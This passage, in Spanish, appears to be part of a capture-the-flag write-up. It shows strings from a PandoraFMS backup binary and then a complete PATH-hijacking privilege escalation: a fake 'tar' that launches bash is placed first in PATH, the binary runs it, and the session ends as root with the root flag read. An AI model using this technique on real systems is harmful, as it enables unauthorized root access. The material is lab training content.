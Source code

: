 ```plaintext
u/UH
[]A\A]A^A_
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
Backup failed!
Check your permissions!
Backup successful!
Terminating program!
					---SKIP---
```

Podemos ver que el binario utiliza la herramienta `tar` para comprimir todos los archivos de la ruta `/var/www/pandora/pandora_console/*` al archivo comprimido `/root/.backup/pandora-backup.tar.gz`. El fallo que podemos aprovechar es que hace referencia a la herramienta `tar` de forma relativa por lo que podríamos modificar el PATH para que primero compruebe un directorio  en el que hemos creado un archivo malicioso llamado `tar` que será ejecutado. Un `PATH Hijacking` en toda regla.

```plaintext
❯ mktemp -d
/tmp/tmp.422JbdGPDX
❯ cd /tmp/tmp.422JbdGPDX
❯ touch tar
❯ chmod +x !$
chmod +x tar
❯ echo $(which bash) > tar
❯ echo $PATH 
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
❯ export PATH=$(pwd):$PATH 
❯ echo $PATH
/tmp/tmp.422JbdGPDX:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
❯ pandora_backup 
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
❯ whoami
root
❯ cat /root/root.txt
bf749c890f5c9b4b****************
```
